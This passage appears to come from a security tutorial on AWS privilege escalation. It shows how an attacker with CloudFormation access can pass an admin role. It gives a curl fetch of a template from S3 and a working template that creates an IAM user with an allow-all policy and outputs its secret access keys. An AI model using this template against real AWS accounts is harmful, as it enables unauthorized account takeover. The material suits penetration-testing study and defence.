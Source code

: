 While the cloudformation:DescribeStacks permission is not necessary to spin up the AWS resources through CloudFormation, it is necessary to read the outputs from the CloudFormation stack.

The AWS environment contains a role named adminaccess that can be assumed by CloudFormation and which has the permissions necessary to create the desired AWS resources.

In order to use CloudFormation to escalate privileges, the attacker needs to provide a template that instructs CloudFormation on the resources that it should create in the AWS environment. The easiest way to provide that template is through an S3 URL:

```bash
➜ curl https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json
```

```json
{
    "Resources": {
        "AdminUser": {
            "Type": "AWS::IAM::User"
        },
        "AdminPolicy": {
            "Type": "AWS::IAM::ManagedPolicy",
                "Properties": {
                "Description" : "This policy allows all actions on all resources.",
                "PolicyDocument": {
                    "Version": "2012-10-17",
                    "Statement": [
                    {
                        "Effect": "Allow",
                        "Action": [
                        "*"
                        ],
                        "Resource": "*"
                    }]
                },
                "Users": [{
                    "Ref": "AdminUser"
                }]
            }
        },
        "MyUserKeys": {
            "Type": "AWS::IAM::AccessKey",
            "Properties": {
                "UserName": {
                    "Ref": "AdminUser"
                }
            }
        }
    },
    "Outputs": {
        "AccessKey": {
            "Value": {
                "Ref": "MyUserKeys"
            },
            "Description": "Access Key ID of Admin User"
        },
        "SecretKey": {
            "Value": {
                "Fn::GetAtt": [
                "MyUserKeys",
                "SecretAccessKey"
                ]
            },
            "Description": "Secret Key of Admin User"
        }
    }
```